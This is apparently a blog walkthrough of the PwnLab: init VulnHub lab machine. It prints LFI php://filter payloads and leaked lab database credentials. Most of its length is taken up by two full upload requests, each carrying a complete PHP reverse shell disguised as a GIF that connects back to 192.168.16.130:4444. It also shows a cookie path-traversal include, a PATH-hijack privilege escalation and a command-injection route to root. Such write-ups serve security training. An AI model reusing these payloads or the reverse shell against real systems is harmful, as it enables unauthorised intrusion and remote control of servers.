






+++
title = "Pwnlab-init"
date = 2019-05-16
[taxonomies]
tags = ["vulnhub"]
+++

1. There are two ports that you can attack remotely, port 80 and 3306.

	Port 80 attacks:
	* Tried simple passwords to attempt bypass login.
	* No luck with RFI attack.

	Port 3306 attacks:
	* No luck with bruteforcing MySQL login using `rockyou.txt`

2. I should be more careful with reading and php filter LFI attack. At the end of the URL, you notice in LFI cheatsheets, it will show `/etc/passwd` such as:

    ```html
	http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
    ```

	You don't necessarily need the directory traversal to test if you can execute the php filter attack. You can first query the index page and see if it works first then traverse the directories and see if you can gather system files.

	I've decoded the following files for further inspection:

    ```html
	http://192.168.1.16/?page=php://filter/convert.base64-encode/resource=index
    ```

    ```html
	http://192.168.1.16/?page=php://filter/convert.base64-encode/resource=login
    ```

    ```html
	http://192.168.1.16/?page=php://filter/convert.base64-encode/resource=upload
    ```

    ```html
	http://192.168.1.16/?page=php://filter/convert.base64-encode/resource=config
    ```

    

	The config page makes sense now because when navigating to the config.php page, it will show up as blank and in the next step it explains why.

3. The `config.php` page contains the MySQL credentials.

    ```php
	<?php
	$server	  = "localhost";
	$username = "root";
	$password = "H4u%QJ_H99";
	$database = "Users";
	?>
    ```

4. Using `mysql` and connect to the remote database as root. Once logged in, there is a database named users and below is the output of the database. The password is encoded with base64 format.

    ```sql
	MySQL [Users]> select * from users;
	+------+------------------+
	| user | pass             |
	+------+------------------+
	| kent | Sld6WHVCSkpOeQ== (JWzXuBJJNy) |
	| mike | U0lmZHNURW42SQ== (SIfdsTEn6I) |
	| kane | aVN2NVltMkdSbw== (iSv5Ym2GRo) |
	+------+------------------+
	3 rows in set (0.01 sec)
    ```


5. Open up Burpsuite and create a repeater with this snippet below. There are 3 important parts of this snippet. 

	* `.gif` extension - To bypass the listed whitelist extensions.
	* `image/gif` as content type - To bypass the mime type checker.
	* `GIF87a` header before the php tag - To fake the server thinking the file really is receiving a gif format by checking the file header.

	Executing the custom Burpsuite remote command to the server will generate a broken image link.

    ```shell
	POST /?page=upload HTTP/1.1
	Host: 192.168.16.129
	User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://192.168.16.129/?page=upload
	Cookie: PHPSESSID=9vq5im5401eplh2imdb7tjoar0
	Connection: close
	Upgrade-Insecure-Requests: 1
	Content-Type: multipart/form-data; boundary=---------------------------6484244853519591111205641705
	Content-Length: 5848

	-----------------------------6484244853519591111205641705
	Content-Disposition: form-data; name="file"; filename="php-reverse-shell.gif"
	Content-Type: image/gif

	GIF87a
	<?php

	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '192.168.16.130';  // CHANGE THIS
	$port = 4444;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;

	//
	// Daemonise ourself if possible to avoid zombies later
	//

	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}

		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}

		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}

	// Change to a safe directory
	chdir("/");

	// Remove any umask we inherited
	umask(0);

	//
	// Do the reverse shell...
	//

	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}

	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);

	$process = proc_open($shell, $descriptorspec, $pipes);

	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}

	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);

	printit("Successfully opened reverse shell to $ip:$port");

	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}

		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}

		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}

		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}

		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}

	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);

	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}

	?> 


	-----------------------------6484244853519591111205641705
	Content-Disposition: form-data; name="submit"

	Upload
	-----------------------------6484244853519591111205641705--

    ```

6. If you take a look at the Burpsuite result, you'll notice the server created a link. 

    ```html
	<br /></center>
    ```

	Try opening the file by using a Burpsuite GET request and it will dump the file as though it's a plain text file. The problem with this if you try to access the file using the browser, it will give you an error `cannot be displayed because it contains errors`. This part can be misleading if you haven't seen this type of method of bypass before because it leads you to think it's caused by the `GIF87a` header.

	In reality, if you reviewed the code carefully for the page `index.php`, you'll notice a `lang` cookie check code uses an `include` statement. This piece of code lacks file sanitation and will load a file that you want to run.

    ```shell
	POST /?page=upload HTTP/1.1
	Host: 192.168.16.129
	User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://192.168.16.129/?page=upload
	Cookie: PHPSESSID=9vq5im5401eplh2imdb7tjoar0; lang=../upload/3208fd203ca8fdfa13bc98a4832c1396.gif
	Connection: close
	Upgrade-Insecure-Requests: 1
	Cache-Control: max-age=0
	Content-Type: multipart/form-data; boundary=---------------------------3116742302425600613338252
	Content-Length: 5838

	-----------------------------3116742302425600613338252
	Content-Disposition: form-data; name="file"; filename="php-reverse-shell.gif"
	Content-Type: image/gif

	GIF87a
	<?php

	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '192.168.16.130';  // CHANGE THIS
	$port = 4444;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;

	//
	// Daemonise ourself if possible to avoid zombies later
	//

	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}

		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}

		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}

	// Change to a safe directory
	chdir("/");

	// Remove any umask we inherited
	umask(0);

	//
	// Do the reverse shell...
	//

	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}

	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);

	$process = proc_open($shell, $descriptorspec, $pipes);

	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}

	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);

	printit("Successfully opened reverse shell to $ip:$port");

	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}

		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}

		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}

		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}

		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}

	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);

	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}

	?> 


	-----------------------------3116742302425600613338252
	Content-Disposition: form-data; name="submit"

	Upload
	-----------------------------3116742302425600613338252--
    ```

7. You should be getting a reverse shell at this point.

8. Running linuxprivchecker and linenum scripts showed nothing out of the ordinary. Start to try basic enumeration using the current information I've already uncovered, mysql database login passwords and see if I could uncover data stored in home directories.

9. Kane's login has succeeded:

    ```shell
	su kane
    ```

	Kane's home folder contains a binary file named `msgmike`.  When executing the binary file, it tries to create a file in Mike's home folder: 

    ```shell
	/home/mike/msg.txt
    ```

	

10. Using the PATH environment trick, we can escalate our privileges to Mike's account. How this works is when you add the current directory to the PATH environment variable, it will read the `cat` file that you've created and contains a bash shell execution. 

	[Read more about PATH escalation.](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

    ```shell
	echo "/bin/bash" > cat
	chmod +x cat
	export PATH=.:$PATH
    ```

	

11. Now that we're in Mike's account, his home folder contains a file called `msg2root`. When executing `msg2root`, it prompts a message "Message for root". Whatever you type, it appears to just repeat itself back like the command `echo`. Taking a closer look at the binary, you will notice that at the end of the `/root/messages.txt` there is a semi colon. This could mean you can execute an additional command afterwards. All you have to do is execute a shell and you are now as root.

	

	

	